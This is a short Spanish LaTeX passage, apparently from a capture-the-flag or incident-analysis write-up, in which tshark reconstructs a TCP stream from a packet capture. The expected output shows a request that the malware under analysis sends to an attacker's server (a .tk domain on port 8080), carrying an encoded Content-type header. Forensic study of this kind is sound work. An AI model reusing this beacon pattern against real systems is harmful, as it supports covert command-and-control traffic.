 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsubsection*{Paso 11. Petición completa al servidor del atacante}
\begin{comando}{/home/kali/Downloads/retosRecuperacion/Reversing CCN-Cry}
tshark -r incident-a1000032.pcapng -q -z follow,tcp,ascii,1
\end{comando}
\begin{tcolorbox}[enhanced, breakable, colback=white, colframe=gray!40, boxrule=0.3pt, arc=1pt, left=4pt, right=4pt, top=2pt, bottom=2pt, fonttitle=\sffamily\scriptsize\bfseries, coltitle=black!75, colbacktitle=gray!8, title={Qué hace cada parte}, attach title to upper, before skip=2pt, after skip=4pt, fontupper=\small]
\par{\renewcommand{\arraystretch}{1.12}\begin{tabularx}{\linewidth}{@{}>{\raggedright\arraybackslash}p{0.33\linewidth}>{\raggedright\arraybackslash}X@{}}
\texttt{-z follow,\allowbreak{}tcp,\allowbreak{}ascii,\allowbreak{}1} & reconstruye la conversación TCP número 1 en texto \\
\end{tabularx}}
\end{tcolorbox}
\begin{salidan}{Salida esperada}
Running as user "root" and group "root". This could be dangerous.

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 1
Node 0: 192.168.1.41:45988
Node 1: 192.168.1.37:8080
121
GET /user.php HTTP/1.0
Host: www.aarkaposleeqaasssf.tk
Content-type: gAu,UovL8;,B2fOT1xRZa?r3wpvD856r:B;?ShTiD:oat12


===================================================================
\end{salidan}
\end{document}
